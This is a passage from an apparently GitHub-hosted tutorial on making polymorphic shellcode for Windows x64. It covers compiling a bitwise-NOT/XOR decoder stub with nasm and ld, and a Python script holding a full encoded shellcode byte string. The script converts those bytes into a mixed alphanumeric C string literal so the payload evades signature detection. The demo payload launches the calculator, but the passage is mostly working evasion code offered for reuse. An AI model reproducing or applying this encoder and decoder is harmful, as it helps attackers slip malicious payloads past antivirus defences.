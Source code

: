 > Before we compile this, it's worth mentioning that we could also run the asmobfuscator python script against this assembly code for futher polypmorphic layers if we wanted.  But for simplicity sake I left it as is 😺

Go ahead and compile that and run it.  You'll get the calculator as expected, but we're not done yet!!!  We need to hang on to that .obj file.  We will need it for our final portion of this post.  I just wanted you to see how the decoder works and make sure you do in fact see the calculator 😸 The grand finale - **adding in Alphanumeric shellcode / mix** is up next! But let's go ahead and do the following first:

> Compile instructions: nasm -fwin64 [program.asm] | ld -m i386pep -N -o program.exe program.obj

<img width="1599" height="905" alt="image" src="https://github.com/user-attachments/assets/7e69c2b4-b13b-46aa-82ce-68fc21d8c35e" />

Polymorphic prep part 3 - Adding in the Alphanumeric / mix Component to our Shellcode
-

Alright guys, we're getting closer to our completed polymorphic shellcode now.  What we need to do next is generate shellcode for our decoding routine.  We can simply run the same python shellcode generation script from earlier.  Your results should look like mine below:

<img width="1460" height="370" alt="image" src="https://github.com/user-attachments/assets/411aaac6-d913-4173-8603-8d680aca7b45" />

Next, go ahead and copy and paste that shellcode somewhere because you'll need it here in just a few.  First, we need to convert our hex bytes (shellcode) to ASCII.  Well, we will convert what we can.  The hex bytes that do not have a direct ASCII charcode conversion available we will leave as is.   Thus, the `Alpha/mix` mix nature of our shellcode.  Here's what the python script looks like, and here's where you'll paste in that Bitwise NOT decoder shellcode you just generated.  Notice how I pasted in the aforementioned shellcode:

```python
# Parse the hex list and convert to mixed ASCII/hex representation for C string literal
hex_list = b"\x48\x8d\x35\x23\x00\x00\x00\x44\x8a\x0d\x42\x00\x00\x00\xb9\x98\x01\x00\x00\x8a\x06\x44\x30\xc8\xf6\xd0\x88\x06\x48\xff\xc6\xe2\xf2\x48\x8d\x05\x02\x00\x00\x00\xff\xe0\x1e\xd4\xb5\x1b\xd0\xbf\x7b\x1b\xde\x6c\x1b\xd0\xb7\xa3\x1e\xd4\xa7\x1b\x62\x9a\x1a\xd4\xaf\x36\x1b\xd8\x57\x76\x63\x53\x53\x53\x1b\xd8\x13\x33\x1b\x62\xac\x1b\xd8\x13\x4b\x1a\xd4\xad\x1b\xd8\x23\x43\x1b\xd0\x94\x53\x1b\xd8\x65\x1f\xd4\xbc\x1b\xd8\x1d\x33\x1f\xd4\xbc\x1b\xd8\x4a\x1e\xd4\xbf\x1b\xe9\x18\x53\x16\x53\x01\x53\x1d\x53\x1b\x62\xac\x1b\x6a\x80\x27\x5b\x1a\xd4\xaf\x26\x85\x1f\xd4\xb4\x1b\xd8\x0d\x63\x1e\xda\xa5\x1a\xda\x8b\x1e\xd4\xb6\xd8\x08\x6f\x1e\x38\xb7\x52\x1f\x52\x90\x1e\xda\xb7\x1b\x62\x9a\x1a\x92\xb6\x53\x35\xd2\x92\xac\xdb\x1e\xd4\xbd\x1b\x92\xba\x5b\x1a\x92\x9f\x53\xd8\x47\x58\x1f\xd4\xb4\x1f\x52\x91\x1e\xda\xbe\x17\xd8\x01\x47\x1e\x62\xbe\x1e\x62\x88\x1a\xd0\xbf\x53\x17\xd8\x09\x73\x1a\xd0\xad\x53\x1e\x52\x90\x1e\xd4\xbd\x1f\xda\x82\x1f\xd4\xbc\x1b\xeb\xfb\xc5\xc2\xe9\xd4\xc9\xcf\x3c\x1b\x92\x9c\x53\x1b\xa4\x83\x1a\xd4\xae\x1b\x92\xb3\x5b\x1e\xda\xbe\x1b\x92\xbb\x5b\x1e\xd4\xb5\x03\x1e\xd6\xa5\x1b\xda\xb3\x1a\xd4\xad\x1b\xd0\x97\x5b\x1e\xda\xb7\x34\xb0\x63\x1a\xd4\xad\x62\x88\x1a\xd4\xaf\x12\xd8\x4f\xd8\x1b\x92\xb4\x53\x1f\x52\x90\x1e\xd4\xb5\x1b\xac\x9a\x1a\xd4\xaf\x1f\xd8\x5b\x1e\xd4\xa7\x1f\x6a\x58\x27\x5e\x1e\xd4\xbd\x26\x82\x1a\x92\xb5\x53\x9f\x1a\xd4\xaf\xac\x92\x1e\xd6\xb7\x1e\x62\x88\x1e\xd4\xa7\x17\xd8\x09\x4f\x1f\xd4\xa4\x1e\x52\x90\x1e\xd4\xbf\x16\xd8\x6f\xd8\x1a\xd4\xad\x1e\x52\x94\x1e\x62\xa5\x1b\x62\x93\x1a\xd0\x96\x53\x03\x1a\xd4\xae\x1b\xeb\xcf\xcd\xc0\xcf\x82\xc9\xd4\xc9\x1a\xd0\xaf\x53\x1b\xa4\x83\x1e\xd4\xbd\x03\x1a\xd4\xad\x1b\xda\xb2\x1e\xd6\xb7\x1b\x62\x81\x1e\xd4\xbd\x1b\xac\x91\x1a\xd4\xad\x1b\xd0\xbf\x63\x1a\xd4\xaf\x12\xac\x84\x1e\xd4\xa7\x53\x53\x53\x53\x53"

alphanumericfinal=[]
for bytey in hex_list:
    r = repr(chr(bytey))
    if bytey == 0x27:
        alphanumericfinal.append("\"\\'\"")
    elif bytey == 0x22:
        alphanumericfinal.append('\"\\""')
    elif bytey == 0x20:
        alphanumericfinal.append("\"\\x20\"")
    else:
        r=r.replace("'", '"')
        alphanumericfinal.append(r)
print(' '.join(alphanumericfinal))
```
